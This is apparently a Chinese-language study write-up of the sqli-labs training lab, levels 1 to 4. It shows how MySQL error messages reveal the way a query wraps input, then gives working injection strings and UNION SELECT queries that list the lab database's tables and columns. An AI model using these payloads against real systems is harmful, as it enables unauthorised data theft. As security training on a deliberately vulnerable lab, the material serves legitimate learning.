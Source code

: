```yaml
---
title: Sql注入学习之sqli-lab-1-4
tags: [Sql注入]
categories: [网络安全]
date: 2016-03-19 14:17:08
---
```


## 1. Less-1 GET-基于错误-单引号-字符型

![](https://ws2.sinaimg.cn/large/006tNc79gy1fvo6y6b6tnj31kw0c0wg3.jpg)

我们将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

<!-- more -->

截取我们感兴趣的那一部分, 即:
` ''1'' LIMIT 0,1' `
为了让大家看的更加清楚一下, 我们去掉前后匹配单引号并故意拉大其中的距离
` '　　1'　　' LIMIT 0,1 `
可以看到 `1'` 是我们输入的数据

接着我们再测试一下

![](https://ws4.sinaimg.cn/large/006tNc79gy1fvo6y6tdkgj31kw0dkmzn.jpg)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1

同样的方法摘取我们感兴趣的:
` ''1\' LIMIT 0,1' `
去掉前后匹配的单引号, 拉大距离:
` '　　1\　　' LIMIT 0,1 `
可以清楚的看出这次我们输入的是 `1\`

将俩次分析后的结果放在一起比较: 
` '　　1'　　' LIMIT 0,1 `
` '　　1\　　' LIMIT 0,1 `
其中`1'`和`1\`是由用户输入的, 所以由报错信息, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = ' our-provided-input '

即所有用户输入都被包含在一个单引号之中。 我们称其为字符型。 在注入时要考虑“闭合”单引号。

----------------------------------------

## 2. Less-2 GET-基于错误-整数型
    
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6y96mhgj31kw07ojw6.jpg)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

` '' LIMIT 0,1' `

去掉前后的单引号后我们发现仅仅剩下我们刚才输入的 `1'` 后面的 `'` 了。
`　　'　　LIMIT 0,1 `
同理, 我们试着输入 `1\`得到的结果如下:
`　　\　　LIMIT 0,1 `
很显然, 前面的数字被正常接受了

所以, 同Less-1, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = our-provided-input 

即, 用户输入没有被任何字符包含。 我们称其为数字型。

--------------------------------------------------

## 3. Less-3 GET-基于错误-单引号和括号-字符型

![](https://ws4.sinaimg.cn/large/006tNc79gy1fvo6yb2hvlj31kw07odkw.jpg)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1

` ''1'') LIMIT 0,1' `

去掉前后匹配的单引号, 拉大距离:
` '　　1'　　') `
同上测试 `1\`
` '　　1\　　') `
其中`1'`和`1\`是由用户输入的, 所以由报错信息, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = (' our-provided-input ')

所以在注入时 要考虑"闭合"后面的`')`: 所以注入语句如下:
` 1') or/and ('1')=('1 `   即:  id = ('1') or/and ('1')=('1') LIMIT 0,1
` 1') --+ `     即:  id = ('1') --+ ') 注释法

-----------------------------------------

## 4. Less-4 GET-基于错误-双引号和括号-字符型

![](https://ws4.sinaimg.cn/large/006tNc79gy1fvo6ybze56j31kw07lq7y.jpg)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1\") LIMIT 0,1' at line 1

` '"1\") LIMIT 0,1' `

去掉前后匹配的单引号, 拉大距离, 测试输入`1"`和`1"`:
` "　　1"　　") `
` "　　1\　　") `
由报错信息, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = (" our-provided-input ")

所以在注入时 要考虑"闭合"后面的`")`: 所以注入语句如下:
` 1") or/and ("1")=("1 `   即:  id = ("1") or/and ("1")=("1") LIMIT 0,1
` 1") --+ `     即:  id = ("1") --+ ') 注释法

------------------------------------------------

## 5. Less1 - Less4 小结

Less1-4 因为根据**id**传入不同有数据回显给我们, 所以可以用联合语句爆出我们感兴趣的一些字段:
例如:
### 猜测字段:
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6ydd0dyj31kw0b6n0p.jpg)
![](https://ws2.sinaimg.cn/large/006tNc79gy1fvo6yebfh4j31kw08zmzw.jpg)
可以知道字段数字为**3**个
### 找暴露点
![](https://ws4.sinaimg.cn/large/006tNc79gy1fvo6yf82q2j31kw0ah0vr.jpg)
可以看出没有什么数字爆出, 这是我们把**id**的值改为负数
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6yg6guxj31kw0ar0vr.jpg)
这样, 我们看到有数字 2, 3 暴露了出来

### 查询一些数据库名, 版本, 用户等重要信息
![](https://ws2.sinaimg.cn/large/006tNc79gy1fvo6yi5p2mj31kw0bagpd.jpg)

由上图我们知道数据库版本是mysql的**5.0**以上版本, 所以可以用**information.schema**查询

### 所有表名
用以下语句可以看出security数据库中的所有表名
10.211.55.7/sqli/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6yjxldej31kw0afade.jpg)

### 所有字段名
用一下语句可以看到users表中的所有字段名
10.211.55.7/sqli/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6ykw18yj31kw0at0w9.jpg)

最后我们知道了表名和字段名, 便可以直接查询其中的值, 如下图中查询emails表中的id和email值:
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6ylt00wj31kw09dtbv.jpg)

